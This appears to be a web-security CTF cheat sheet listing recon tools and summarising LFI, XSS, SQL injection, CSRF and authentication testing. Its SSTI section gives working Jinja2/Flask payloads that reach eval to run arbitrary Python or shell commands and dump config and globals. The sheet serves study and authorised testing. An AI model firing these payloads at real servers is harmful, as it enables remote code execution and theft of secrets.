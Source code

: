 ##  Web directory bruteforcers
- dirb(run dirb on terminal)
- dirbuster (requires GUI)
- gobuster (similar tool)
- dirsearch(faster alternative to dirb) [GitHub](https://github.com/maurosoria/dirsearch)
##  Web crawlers
- dirhunt [GitHub](https://github.com/Nekmo/dirhunt)
##  Packet utils
- Burp Suite (requires GUI) [Website](https://portswigger.net/burp)
- wget
## LFI (Local File Inclusion)
- Commonly found in PHP web application (maybe through Wordpress plugins etc)
- Vulnerable websites can allow you to access local files through directory traversal
- Look out for ways where you can supply a file path and it is served as a download/printed to the page
## XSS
- Stored XSS
> Website uses external resources that contains malicious code</br>
> If an SVG with XSS payload is in an iframe or embed of a website, it can be executed
- Reflected XSS
> When queries to a website is handled and returned in an unsafe way
- DOM based XSS
> Client side attack, browser executes payload that didn't came from the server
## SQL Injection
### Testing
- Try using one (single or double) quote for the input and see if there is any errors
- If an error is returned, the website might be vulnerable
### Types of attack
- Union based attack
> Application displays the output of the query, allowing you to steal information from the database
- Error based attack
> Application returns an error with details about the query, helping you to craft queries to bypass checks
- Resources
> Sqlmap [GitHub](https://github.com/sqlmapproject/)</br>
> Learn and try using SQL [Website](http://mystery.knightlab.com/)
## Server-side Template Injection (SSTI)
### Testing:  

```
{{ 7*'7' }}
    Twig: 49
    Jinja2: 7777777
{{ 7 }}
    Golang: 7
```

### How to perform the SSTI:
For Flask servers:

Get config:
`{{config}}`

Python RCE:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<Python code here>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Execute shell statements:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("<SHELL STATEMENT HERE>").read()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Get all classes:
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Get local/global variables (from Python RCE)
```python
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```

For golang:
```
{{.<variable or function here>}}
```
Note that the dot is important.

- Reference/more info [GitHub](https://github.com/w181496/Web-CTF-Cheatsheet#ssti) / [Translated Version](https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti)
- Payload for more languages [Website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## CSRF
### Testing
- Steps to test for CSRF [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
## Broken Authentication
### Testing
- Steps to test for Broken Authentication [Guide](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
## Practice
- bWAPP, a free and open source deliberately insecure web application [Website](http://www.itsecgames.com/)
